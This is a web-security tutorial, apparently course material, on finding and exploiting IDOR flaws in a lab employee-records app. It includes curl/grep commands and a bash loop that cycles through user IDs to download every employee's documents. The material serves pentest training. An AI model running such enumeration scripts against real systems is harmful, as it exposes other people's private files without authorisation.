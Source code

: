 # Mass IDOR Enumeration

Exploiting IDOR vulnerabilities is easy in some instances but can be very challenging in others. Once we identify a potential IDOR, we can start testing it with basic techniques to see whether it would expose any other data. As for advanced IDOR attacks, we need to better understand how the web application works, how it calculates its object references, and how its access control system works to be able to perform advanced attacks that may not be exploitable with basic techniques.

Let's start discussing various techniques of exploiting IDOR vulnerabilities, from basic enumeration to mass data gathering, to user privilege escalation.

***

## Insecure Parameters

Let's start with a basic example that showcases a typical IDOR vulnerability. The exercise below is an `Employee Manager` web application that hosts employee records:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Our web application assumes that we are logged in as an employee with user id `uid=1` to simplify things. This would require us to log in with credentials in a real web application, but the rest of the attack would be the same. Once we click on `Documents`, we are redirected to

`/documents.php`:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://SERVER_IP:PORT/documents.php?uid=1</p></figcaption></figure>

When we get to the `Documents` page, we see several documents that belong to our user. These can be files uploaded by our user or files set for us by another department (e.g., HR Department). Checking the file links, we see that they have individual names:

```html
/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf
```

We see that the files have a predictable naming pattern, as the file names appear to be using the user `uid` and the month/year as part of the file name, which may allow us to fuzz files for other users. This is the most basic type of IDOR vulnerability and is called `static file IDOR`. However, to successfully fuzz other files, we would assume that they all start with `Invoice` or `Report`, which may reveal some files but not all. So, let's look for a more solid IDOR vulnerability.

We see that the page is setting our `uid` with a `GET` parameter in the URL as (`documents.php?uid=1`). If the web application uses this `uid` GET parameter as a direct reference to the employee records it should show, we may be able to view other employees' documents by simply changing this value. If the back-end end of the web application `does` have a proper access control system, we will get some form of `Access Denied`. However, given that the web application passes as our `uid` in clear text as a direct reference, this may indicate poor web application design, leading to arbitrary access to employee records.

When we try changing the `uid` to `?uid=2`, we don't notice any difference in the page output, as we are still getting the same list of documents, and may assume that it still returns our own documents:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://SERVER_IP:PORT/documents.php?uid=2</p></figcaption></figure>

However, `we must be attentive to the page details during any web pentest` and always keep an eye on the source code and page size. If we look at the linked files, or if we click on them to view them, we will notice that these are indeed different files, which appear to be the documents belonging to the employee with `uid=2`:

```html
/documents/Invoice_2_08_2020.pdf
/documents/Report_2_12_2020.pdf
```

This is a common mistake found in web applications suffering from IDOR vulnerabilities, as they place the parameter that controls which user documents to show under our control while having no access control system on the back-end. Another example is using a filter parameter to only display a specific user's documents (e.g. `uid_filter=1`), which can also be manipulated to show other users' documents or even completely removed to show all documents at once.

***

## Mass Enumeration

We can try manually accessing other employee documents with `uid=3`, `uid=4`, and so on. However, manually accessing files is not efficient in a real work environment with hundreds or thousands of employees. So, we can either use a tool like `Burp Intruder` or `ZAP Fuzzer` to retrieve all files or write a small bash script to download all files, which is what we will do.

We can click on \[`CTRL+SHIFT+C`] in Firefox to enable the `element inspector`, and then click on any of the links to view their HTML source code, and we will get the following:

```html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

We can pick any unique word to be able to `grep` the link of the file. In our case, we see that each link starts with `<li class='pure-tree_link'>`, so we may `curl` the page and `grep` for this line, as follows:

```shell-session
$ curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep "<li class='pure-tree_link'>"

<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

As we can see, we were able to capture the document links successfully. We may now use specific bash commands to trim the extra parts and only get the document links in the output. However, it is a better practice to use a `Regex` pattern that matches strings between `/document` and `.pdf`, which we can use with `grep` to only get the document links, as follows:

```shell-session
$ curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"

/documents/Invoice_3_06_2020.pdf
/documents/Report_3_01_2020.pdf
```

Now, we can use a simple `for` loop to loop over the `uid` parameter and return the document of all employees, and then use `wget` to download each document link:

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

When we run the script, it will download all documents from all employees with `uids` between 1-10, thus successfully exploiting the IDOR vulnerability to mass enumerate the documents of all employees. This script is one example of how we can achieve the same objective. Try using a tool like Burp Intruder or ZAP Fuzzer, or write another Bash or PowerShell script to download all documents.
